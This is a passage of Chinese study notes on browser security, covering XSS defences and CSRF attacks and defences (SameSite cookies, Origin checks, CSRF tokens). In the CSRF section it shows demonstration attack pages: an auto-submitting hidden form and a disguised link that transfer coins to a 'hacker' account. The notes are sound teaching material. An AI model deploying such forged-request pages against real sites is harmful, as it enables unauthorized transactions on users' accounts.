         2. 具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中
            1. 比如通过网络劫持在页面传输过程中修改 HTML 页面的内容
            2. 这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。
      5. 如何阻止 XSS 攻击
         1. 我们知道存储型 XSS 攻击和反射型 XSS 攻击都是需要经过 Web 服务器来处理的，因此可以认为这两种类型的漏洞是服务端的安全漏洞
            1. 而基于 DOM 的 XSS 攻击全部都是在浏览器端完成的，因此基于 DOM 的 XSS 攻击是属于前端的安全漏洞
            2. 但无论是何种类型的 XSS 攻击，它们都有一个共同点，那就是首先往浏览器中注入恶意脚本，然后再通过恶意脚本将用户信息发送至黑客部署的恶意服务器上
            3. 所以要阻止 XSS 攻击，我们可以通过阻止恶意 JavaScript 脚本的注入和恶意消息的发送来实现。
            4. 接下来我们就来看看一些常用的阻止 XSS 攻击的策略。
         2. 服务器对输入脚本进行过滤或转码
            1. 不管是反射型还是存储型 XSS 攻击，我们都可以在服务器端将一些关键的字符进行转码，比如最典型的：code:<script>alert('你被xss攻击了')</script>
               1. 这段代码过滤后，只留下了：code:
               2. 这样，当用户再次请求该页面时，由于<script>标签的内容都被过滤了，所以这段脚本在客户端是不可能被执行的。
            2. 除了过滤之外，服务器还可以对这些内容进行转码，还是上面那段代码，经过转码之后，效果如下所示：
               1. code:&lt;script&gt;alert(&#39;你被xss攻击了&#39;)&lt;/script&gt;
               2. 经过转码之后的内容，如<script>标签被转换为&lt;script&gt;，因此即使这段脚本返回给页面，页面也不会执行这段脚本。
         3. 充分利用 CSP
            1. 虽然在服务器端执行过滤或者转码可以阻止 XSS 攻击的发生，但完全依靠服务器端依然是不够的，我们还需要把 CSP 等策略充分地利用起来，以降低 XSS 攻击带来的风险和后果
            2. 实施严格的 CSP 可以有效地防范 XSS 攻击，具体来讲 CSP 有如下几个功能：
               1. 限制加载其他域下的资源文件，这样即使黑客插入了一个 JavaScript 文件，这个 JavaScript 文件也是无法被加载的；
               2. 禁止向第三方域提交数据，这样用户数据也不会外泄
               3. 禁止执行内联脚本和未授权的脚本；
               4. 还提供了上报机制，这样可以帮助我们尽快发现有哪些 XSS 攻击，以便尽快修复问题
            3. 因此，利用好 CSP 能够有效降低 XSS 攻击的概率。
         4. 使用 HttpOnly 属性
            1. 由于很多 XSS 攻击都是来盗用 Cookie 的，因此还可以通过使用 HttpOnly 属性来保护我们 Cookie 的安全
            2. 通常服务器可以将某些 Cookie 设置为 HttpOnly 标志
               1. HttpOnly 是服务器通过 HTTP 响应头来设置的，下面是打开 Google 时，HTTP 响应头中的一段：
                 ```
                 set-cookie: NID=189=M8q2FtWbsR8RlcldPVt7qkrqR38LmFY9jUxkKo3-4Bi6Qu_ocNOat7nkYZUTzolHjFnwBw0izgsATSI7TZyiiiaV94qGh-BzEYsNVa7TZmjAYTxYTOM9L_-0CN9ipL6cXi8l6-z41asXtm2uEwcOC5oh9djkffOMhWqQrlnCtOI; expires=Sat, 18-Apr-2020 06:52:22 GMT; path=/; domain=.google.com; HttpOnly
                 ```
               2. 我们可以看到，set-cookie 属性值最后使用了 HttpOnly 来标记该 Cookie
               3. 顾名思义，使用 HttpOnly 标记的 Cookie 只能使用在 HTTP 请求过程中，所以无法通过 JavaScript 来读取这段 Cookie。
               4. 我们还可以通过 Chrome 开发者工具来查看哪些 Cookie 被标记了 HttpOnly，如下图：
                  1. 
                  2. 从图中可以看出，NID 这个 Cookie 的 HttpOlny 属性是被勾选上的，所以 NID 的内容是无法通过 document.cookie 是来读取的。
            3. 由于 JavaScript 无法读取设置了 HttpOnly 的 Cookie 数据，所以即使页面被注入了恶意 JavaScript 脚本，也是无法获取到设置了 HttpOnly 的数据。因此一些比较重要的数据我们建议设置 HttpOnly 标志。
3. CSRF攻击：陌生链接不要随便点
   1. 序言
      1. 在上一篇文章中我们讲到了 XSS 攻击，XSS 的攻击方式是黑客往用户的页面中注入恶意脚本，然后再通过恶意脚本将用户页面的数据上传到黑客的服务器上，最后黑客再利用这些数据进行一些恶意操作
         1. XSS 攻击能够带来很大的破坏性，不过另外一种类型的攻击也不容忽视，它就是我们今天要聊的 CSRF 攻击
      2. 相信你经常能听到的一句话：“别点那个链接，小心有病毒！”点击一个链接怎么就能染上病毒了呢？
         1. 我们结合一个真实的关于 CSRF 攻击的典型案例来分析下，在 2007 年的某一天，David 无意间打开了 Gmail 邮箱中的一份邮件，并点击了该邮件中的一个链接。过了几天，David 就发现他的域名被盗了。不过几经周折，David 还是要回了他的域名，也弄清楚了他的域名之所以被盗，就是因为无意间点击的那个链接
   2. 那 David 的域名是怎么被盗的呢？
      1. 我们结合下图来分析下 David 域名的被盗流程：
         1. 
         2. 首先 David 发起登录 Gmail 邮箱请求，然后 Gmail 服务器返回一些登录状态给 David 的浏览器，这些信息包括了 Cookie、Session 等，这样在 David 的浏览器中，Gmail 邮箱就处于登录状态了
         3. 接着黑客通过各种手段引诱 David 去打开他的链接，比如 hacker.com，然后在 hacker.com 页面中，黑客编写好了一个邮件过滤器，并通过 Gmail 提供的 HTTP 设置接口设置好了新的邮件过滤功能，该过滤器会将 David 所有的邮件都转发到黑客的邮箱中
         4. 最后的事情就很简单了，因为有了 David 的邮件内容，所以黑客就可以去域名服务商那边重置 David 域名账户的密码，重置好密码之后，就可以将其转出到黑客的账户了
      2. 以上就是 David 的域名被盗的完整过程，其中前两步就是我们今天要聊的 CSRF 攻击。
   3. 什么是 CSRF 攻击
      1. CSRF 英文全称是 Cross-site request forgery，所以又称为“跨站请求伪造”
         1. 是指黑客引诱用户打开黑客的网站，在黑客的网站中，利用用户的登录状态发起的跨站请求
         2. 简单来讲，CSRF 攻击就是黑客利用了用户的登录状态，并通过第三方的站点来做一些坏事
      2. 通常当用户打开了黑客的页面后，黑客有三种方式去实施 CSRF 攻击
         1. 下面我们以极客时间官网为例子，来分析这三种攻击方式都是怎么实施的
         2. 这里假设极客时间具有转账功能，可以通过 POST 或 Get 来实现转账，转账接口如下所示：
            ```
            #同时支持POST和Get
            #接口 
            https://time.geekbang.org/sendcoin
            #参数
            ##目标用户
            user
            ##目标金额
            number
            ```
      3. 有了上面的转账接口，我们就可以来模拟 CSRF 攻击了
         1. 自动发起 Get 请求
            1. 黑客最容易实施的攻击方式是自动发起 Get 请求，具体攻击方式你可以参考下面这段代码：
               ```
               <!DOCTYPE html>
               <html>
                 <body>
                   <h1>黑客的站点：CSRF攻击演示</h1>
                   
                 </body>
               </html>
               ```
            2. 这是黑客页面的 HTML 代码，在这段代码中，黑客将转账的请求接口隐藏在 img 标签内，欺骗浏览器这是一张图片资源
            3. 当该页面被加载时，浏览器会自动发起 img 的资源请求，如果服务器没有对该请求做判断的话，那么服务器就会认为该请求是一个转账请求，于是用户账户上的 100 极客币就被转移到黑客的账户上去了
         2. 自动发起 POST 请求
            1. 除了自动发送 Get 请求之外，有些服务器的接口是使用 POST 方法的，所以黑客还需要在他的站点上伪造 POST 请求
            2. 当用户打开黑客的站点时，是自动提交 POST 请求，具体的方式你可以参考下面示例代码：
               ```
               <!DOCTYPE html>
               <html>
               <body>
                 <h1>黑客的站点：CSRF攻击演示</h1>
                 <form id='hacker-form' action="https://time.geekbang.org/sendcoin" method=POST>
                   <input type="hidden" name="user" value="hacker" />
                   <input type="hidden" name="number" value="100" />
                 </form>
                 <script> document.getElementById('hacker-form').submit(); </script>
               </body>
               </html>
               ```
            3. 在这段代码中，我们可以看到黑客在他的页面中构建了一个隐藏的表单，该表单的内容就是极客时间的转账接口
            4. 当用户打开该站点之后，这个表单会被自动执行提交；当表单被提交之后，服务器就会执行转账操作
            5. 因此使用构建自动提交表单这种方式，就可以自动实现跨站点 POST 数据提交。
         3. 引诱用户点击链接
            1. 除了自动发起 Get 和 Post 请求之外，还有一种方式是诱惑用户点击黑客站点上的链接，这种方式通常出现在论坛或者恶意邮件上
            2. 黑客会采用很多方式去诱惑用户点击链接，示例代码如下所示：
               ```
               <div>
                  </img> </div> <div>
                 <a href="https://time.geekbang.org/sendcoin?user=hacker&number=100" taget="_blank">
                   点击下载美女照片
                 </a>
               </div>
               ```
            3. 这段黑客站点代码，页面上放了一张美女图片，下面放了图片下载地址，而这个下载地址实际上是黑客用来转账的接口，一旦用户点击了这个链接，那么他的极客币就被转到黑客账户上了。
            4. 以上三种就是黑客经常采用的攻击方式。如果当用户登录了极客时间，以上三种 CSRF 攻击方式中的任何一种发生时，那么服务器都会将一定金额的极客币发送到黑客账户。
      4. 和 XSS 不同的是，CSRF 攻击不需要将恶意代码注入用户的页面，仅仅是利用服务器的漏洞和用户的登录状态来实施攻击
   4. 如何防止 CSRF 攻击
      1. 了解了 CSRF 攻击的一些手段之后，我们再来看看 CSRF 攻击的一些“特征”，然后根据这些“特征”分析下如何防止 CSRF 攻击
         1. 下面是我总结的发起 CSRF 攻击的三个必要条件：
            1. 第一个，目标站点一定要有 CSRF 漏洞；
            2. 第二个，用户要登录过目标站点，并且在浏览器上保持有该站点的登录状态；
            3. 第三个，需要用户打开一个第三方站点，可以是黑客的站点，也可以是一些论坛
            4. 满足以上三个条件之后，黑客就可以对用户进行 CSRF 攻击了
         2. 这里还需要额外注意一点，与 XSS 攻击不同，CSRF 攻击不会往页面注入恶意脚本，因此黑客是无法通过 CSRF 攻击来获取用户页面数据的
            1. 其最关键的一点是要能找到服务器的漏洞，所以说对于 CSRF 攻击我们主要的防护手段是提升服务器的安全性
         3. 要让服务器避免遭受到 CSRF 攻击，通常有以下几种途径。
      2. 充分利用好 Cookie 的 SameSite 属性
         1. 通过上面的介绍，相信你已经知道了黑客会利用用户的登录状态来发起 CSRF 攻击，而 Cookie 正是浏览器和服务器之间维护登录状态的一个关键数据
            1. 因此要阻止 CSRF 攻击，我们首先就要考虑在 Cookie 上来做文章。
         2. 通常 CSRF 攻击都是从第三方站点发起的，要防止 CSRF 攻击，我们最好能实现从第三方站点发送请求时禁止 Cookie 的发送
            1. 因此在浏览器通过不同来源发送 HTTP 请求时，有如下区别：
            2. 如果是从第三方站点发起的请求，那么需要浏览器禁止发送某些关键 Cookie 数据到服务器
            3. 如果是同一个站点发起的请求，那么就需要保证 Cookie 数据正常发送
         3. 而我们要聊的 Cookie 中的 SameSite 属性正是为了解决这个问题的，通过使用 SameSite 可以有效地降低 CSRF 攻击的风险。
            1. 那 SameSite 是怎么防止 CSRF 攻击的呢？
            2. 在 HTTP 响应头中，通过 set-cookie 字段设置 Cookie 时，可以带上 SameSite 选项，如下：
              ```
              set-cookie: 1P_JAR=2019-10-20-06; expires=Tue, 19-Nov-2019 06:36:21 GMT; path=/; domain=.google.com; SameSite=none
              ```
            3. SameSite 选项通常有 Strict、Lax 和 None 三个值。
               1. Strict 最为严格
                  1. 如果 SameSite 的值是 Strict，那么浏览器会完全禁止第三方 Cookie
                  2. 简言之，如果你从极客时间的页面中访问 InfoQ 的资源，而 InfoQ 的某些 Cookie 设置了 SameSite = Strict 的话，那么这些 Cookie 是不会被发送到 InfoQ 的服务器上的
                  3. 有你从 InfoQ 的站点去请求 InfoQ 的资源时，才会带上这些 Cookie
               2. Lax 相对宽松一点
                  1. 在跨站点的情况下，从第三方站点的链接打开和从第三方站点提交 Get 方式的表单这两种方式都会携带 Cookie
                  2. 但如果在第三方站点中使用 Post 方法，或者通过 img、iframe 等标签加载的 URL，这些场景都不会携带 Cookie
               3. 而如果使用 None 的话，在任何情况下都会发送 Cookie 数据
         4. 关于 SameSite 的具体使用方式，你可以参考这个链接：https://web.dev/samesite-cookies-explained 。
         5. 对于防范 CSRF 攻击，我们可以针对实际情况将一些关键的 Cookie 设置为 Strict 或者 Lax 模式，这样在跨站点请求时，这些关键的 Cookie 就不会被发送到服务器，从而使得黑客的 CSRF 攻击失效。
      3. 验证请求的来源站点
         1. 接着我们再来了解另外一种防止 CSRF 攻击的策略，那就是在服务器端验证请求来源的站点
            1. 由于 CSRF 攻击大多来自于第三方站点，因此服务器可以禁止来自第三方站点的请求。那么该怎么判断请求是否来自第三方站点呢？
            2. 这就需要介绍 HTTP 请求头中的 Referer 和 Origin 属性了。
         2. Referer 是 HTTP 请求头中的一个字段，记录了该 HTTP 请求的来源地址
            1. 比如我从极客时间的官网打开了 InfoQ 的站点，那么请求头中的 Referer 值是极客时间的 URL，如下图：
            2. 
            3. 虽然可以通过 Referer 告诉服务器 HTTP 请求的来源，但是有一些场景是不适合将来源 URL 暴露给服务器的
            4. 因此浏览器提供给开发者一个选项，可以不用上传 Referer 值，具体可参考 Referrer Policy。
         3. 但在服务器端验证请求头中的 Referer 并不是太可靠，因此标准委员会又制定了 Origin 属性
            1. 在一些重要的场合，比如通过 XMLHttpRequest、Fecth 发起跨站请求或者通过 Post 方法发送请求时，都会带上 Origin 属性，如下图：
            2. 
            3. 从上图可以看出，Origin 属性只包含了域名信息，并没有包含具体的 URL 路径，这是 Origin 和 Referer 的一个主要区别
            4. 在这里需要补充一点，Origin 的值之所以不包含详细路径信息，是有些站点因为安全考虑，不想把源站点的详细路径暴露给服务器
         4. 因此，服务器的策略是优先判断 Origin，如果请求头中没有包含 Origin 属性，再根据实际情况判断是否使用 Referer 值
      4. CSRF Token
         1. 除了使用以上两种方式来防止 CSRF 攻击之外，还可以采用 CSRF Token 来验证，这个流程比较好理解，大致分为两步
            1. 第一步，在浏览器向服务器发起请求时，服务器生成一个 CSRF Token。CSRF Token 其实就是服务器生成的字符串，然后将该字符串植入到返回的页面中。你可以参考下面示例代码：
                ```
                <!DOCTYPE html>
                <html>
                <body>
                    <form action="https://time.geekbang.org/sendcoin" method="POST">
                      <input type="hidden" name="csrf-token" value="nc98P987bcpncYhoadjoiydc9ajDlcn">
                      <input type="text" name="user">
                      <input type="text" name="number">
                      <input type="submit">
                    </form>
                </body>
                </html>
                ```
            2. 第二步，在浏览器端如果要发起转账的请求，那么需要带上页面中的 CSRF Token，然后服务器会验证该 Token 是否合法。
               1. 如果是从第三方站点发出的请求，那么将无法获取到 CSRF Token 的值，所以即使发出了请求，服务器也会因为 CSRF Token 不正确而拒绝请求。
         2. 